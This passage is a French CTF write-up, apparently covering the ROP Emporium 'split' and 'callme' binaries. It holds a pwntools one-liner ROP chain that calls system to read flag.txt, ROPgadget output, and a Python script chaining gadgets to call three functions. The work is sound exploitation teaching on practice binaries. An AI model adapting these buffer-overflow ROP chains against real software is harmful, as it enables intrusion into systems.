 Voici le schéma de notre exploitation :

![](https://i.imgur.com/xGExZwp.png)

Pour une ROPchain simple comme celle ci nous allons faire un one-liner en Python :

```bash
python2 -c "from pwn import *; print 'A' * 40 + p64(0x4007c3) + p64(0x601060) + p64(0x400566)" | ./split # pop rdi ; ret + /bin/cat flag.txt + system
```

# callme

Il est indiqué dans la description de ce challenge que nous devons appeler la fonction `callme_one()`, `callme_two()` et `callme_three()` prennant chacunes les arguments suivants : `0xdeadbeefdeadbeef`, `0xcafebabecafebabe` et `0xd00df00dd00df00d`.

Nous avons un gadget interéssant :

```bash
❯ ROPgadget --binary=callme | grep "pop rdi ; pop rsi ; pop rdx"
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

Le gadget `pop rdi ; pop rsi ; pop rdx ; ret` setup 3 arguments à une fonction. Ce qui est idéal pour notre exploitation !

![](https://i.imgur.com/hQbtJdU.png)

Pour ce challenge, il est plus judicieux de développer un petit script Python :

```py
from pwn import *

context.update(arch="amd64", os="linux", bits=64)
p = process("./callme")
elf = ELF("./callme")
rop = ROP("./callme")

pld = cyclic(40)
gadget = (rop.find_gadget(["pop rdi", "pop rsi", "pop rdx", "ret"]))[0]
argv_1 = p64(0xdeadbeefdeadbeef)
argv_2 = p64(0xcafebabecafebabe)
argv_3 = p64(0xd00df00dd00df00d)
functions_to_call = ['callme_one', 'callme_two', 'callme_three']

for function in functions_to_call:
    pld += p64(gadget)
    pld += argv_1
    pld += argv_2
    pld += argv_3
    pld += p64(elf.symbols[function])

p.sendline(pld)
p.interactive()
```
